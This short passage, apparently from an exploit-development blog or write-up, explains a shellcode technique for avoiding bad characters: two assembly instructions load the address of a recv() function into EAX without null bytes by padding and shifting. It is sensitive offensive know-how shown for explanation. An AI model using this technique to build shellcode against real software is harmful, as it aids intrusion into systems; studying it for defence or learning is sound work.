 The shifting described in the blog to overcome bad addesses (Those contiaing characters we cannot transmit) is as follows:
```s
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
                        ; This makes EAX = 0040252C
```
* `mov eax,0x40252C90`: Put the address of the `recv(...)` function into *eax*, this contains `0x90` as the original `0x0040252C` has null bytes.
* `shr eax,0x8`: Shifts the eax register right 8 bits to add the leading null byte.
